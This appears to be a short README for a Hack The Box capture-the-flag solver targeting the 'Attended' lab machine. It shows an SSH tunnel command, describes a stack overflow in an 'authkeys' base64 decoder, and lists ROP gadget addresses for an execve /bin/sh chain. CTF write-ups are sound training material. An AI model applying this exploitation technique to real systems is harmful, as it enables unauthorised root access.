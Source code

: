 # HTB-Attended-Root-Solver-Script
HTB-Attended-Root-Script

1. Connect to attended
ssh -L 2222:attendedgw:2222 -i attended freshness@attended.htb
Keep this window open

2. Run attended_root_solver.py

ssh-keygen -t rsa -b 8192 to generate the keys.

I looked at /etc/ssh/sshd_config in attendedgw. It's running authkeys. 4th argument is our public key

I analyzed authkeys, the function at 4002C4 is a base64 decoder vulnerable to a stack overflow. Stack is not executable but no canary.

So I used a ROP chain that runs execve /bin/sh -c some_command

The gadgets are severely limited, so I am using only these:

0x0000000000400370: shr eax, 1; ret;
0x000000000040036d: not al; adc cl, 0xe8; ret;
0x000000000040036a: pop rdx; ret;
0x0000000000400368: mov edi, esi; pop rdx; ret;
0x000000000040037b: movss xmm0, dword ptr [rdx]; mov ebx, 0xf02d0ff3; ret;
0x0000000000400380: cvtss2si esi, xmm0; ret;
0x00000000004003cf: syscall; ret;
